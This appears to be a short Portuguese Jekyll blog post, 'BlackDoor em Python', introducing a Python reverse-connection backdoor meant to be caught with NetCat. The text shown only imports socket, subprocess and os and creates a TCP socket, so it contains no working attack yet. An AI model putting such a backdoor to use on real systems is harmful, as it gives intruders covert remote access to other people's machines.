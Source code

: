 ```yaml
---
layout: post
title:  "BlackDoor em Python"
date:   2017-12-18
---
```

<figure>
	<img src="{{ '/assets/img/ imagem aqui' | prepend: site.baseurl }}" alt=""> 
	
</figure>
<p class="intro"><span class="dropcap"> S</span>imples "BkacDor" em python para conexão revessa, você pode usar o NetCat ou criar um servido em python para estar ouvindo o"BkacDor".

<dt>1.<dt/>vamos importa as bibliotecas necessarias para o funcionamento do BackDoor.</dt> 

{% highlight python %}
#!/usr/bin/python
import socket,subprocess, os
# ou 
import socket
import subprocess
import os
{% endhighlight %}

<dt>2. Vamos definir qual tipo de socket queremos, para este caso vamos usar socket TCP</dt>

{% highlight python %}
# TCP Socket 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

{% endhighlight %}

